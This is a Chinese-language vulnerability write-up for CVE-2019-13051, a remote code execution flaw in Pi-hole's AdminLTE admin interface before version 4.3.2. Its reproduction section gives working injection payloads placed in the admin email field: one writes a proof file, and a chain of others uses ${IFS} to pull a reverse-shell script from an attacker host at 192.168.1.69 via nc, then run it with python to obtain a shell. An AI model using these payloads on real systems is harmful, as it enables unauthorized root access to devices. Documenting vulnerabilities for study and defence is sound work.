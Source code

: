 （CVE-2019-13051）Pi-Hole 远程代码执行漏洞
==========================================

一、漏洞简介
------------

通过描述的"AdminLTE"组件上的漏洞，可以远程获得RaspberyPi设备（或应用程序正在运行的任何设备/VM）上的根访问权限。要利用此漏洞，需要对AdminLTE
web界面的管理访问权限凭据。

二、漏洞影响
------------

Pi-Hole \< 4.3.2

三、复现过程
------------

在管理员邮箱处添加

    "`test>/tmp/poc_proof.txt`"@0-sec.org

![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-13051)Pi-Hole远程代码执行漏洞/media/rId24.png)

由于该系统设定原因，需等待十分钟后，即可发现`/tmp/poc_proof.txt`
已经被创建

![2.jpg](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-13051)Pi-Hole远程代码执行漏洞/media/rId25.jpg)

### 深入利用

现在攻击机上执行反弹shell命令

    nc -nvlp 4444 < revshell.py

在管理邮箱处执行反弹shell代码

    "`nc${IFS}192.168.1.69${IFS}4444>/tmp/revshell.py`"@0-sec.org

![3.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-13051)Pi-Hole远程代码执行漏洞/media/rId27.png)

我们可以看到http请求如下所示

![4.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-13051)Pi-Hole远程代码执行漏洞/media/rId28.png)

随后等待十分钟，查看是否执行成功

在确保执行成功后，继续执行nc反弹shell命令

    nc -nvlp 4445

最后，再向网站执行反弹shell命令

    “`python${IFS}/tmp/revshell.py`”@0-sec.org

等待十分钟后，查看回显结果

![5.jpg](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-13051)Pi-Hole远程代码执行漏洞/media/rId29.jpg)
